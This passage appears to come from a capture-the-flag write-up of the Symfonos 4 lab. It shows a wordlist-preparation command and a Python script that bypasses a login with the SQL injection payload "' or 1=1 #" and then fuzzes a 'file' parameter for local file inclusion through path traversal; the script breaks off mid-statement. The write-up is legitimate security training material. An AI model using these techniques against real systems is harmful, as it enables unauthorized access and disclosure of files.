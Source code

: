 This page allows us request for a god and returns a description about it, if we remember in the gobuster results we found the directory **gods**, this contains the gods that are being included in the web page. 

![](/assets/images/symfonos4/screenshot-5.png)

**Local File Inclusion**

If we notice that the **.log** extension is not included at the time of requesting a god, so I decided to test Local File Inclusion vulnerability, but removing the .log extension from the word list, as shown below:

```bash
root@kali:~$ sed 's/\.log$//g' /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt > wordlist.txt
```
Therefore I decided develop a python script, which will help me find a file that can be included in the parameter **file**.

```python
#!/usr/bin/env python3

import requests

target="http://192.168.179.138/atlantis.php"
payload="' or 1=1 #"
s=requests.session()

def sqli(url,payload):
    values={
            'username':payload,
            'password':'password'
            }

    r=s.post(url,data=values)

def lfi_fuzz(p):
    lfi_req=s.get(f"http://192.168.179.138/sea.php?file=../../../../../../{p}")
    return len(lfi_req.text)

wordlist=open("wordlist.txt").read().splitlines()

if __name__=="__main__":
    sqli(target,payload)
    for p in wordlist:
        x=lfi_fuzz(p)
        if x != 577:
            print(f"{x} {p:50}")
        else:
```